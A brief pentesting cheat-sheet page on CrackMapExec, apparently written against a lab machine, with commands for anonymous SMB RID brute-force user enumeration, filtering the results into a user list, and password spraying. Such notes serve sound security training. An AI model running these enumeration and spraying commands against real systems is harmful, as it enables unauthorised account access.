 ```yaml
---
slug: /tooling/crackmapexec
pagination_next: null
pagination_prev: null
---
```

Tool for network pentesting

## Brute-force Sambda users

Will try to determine the users of a system by trying with different `rid``

```bash
crackmapexec smb 10.10.11.236 -u anonymous -p "" --rid-brute 10000 > u.txt
```

Now we can delete useless users:

```bash
cat u.txt |grep -i user |rev |cut -f2 -d ' ' |rev |grep FLUFFY |cut -f2 -d '\' |grep -Ev (DC|SVC) |tail -n +4 > users.txt
```

## Password spraying

It will try to combine the values in the provided files to see if it returns a valid login attempt

```bash
crackmapexec smb 10.10.11.236 -u exfil/users -p exfil/users
```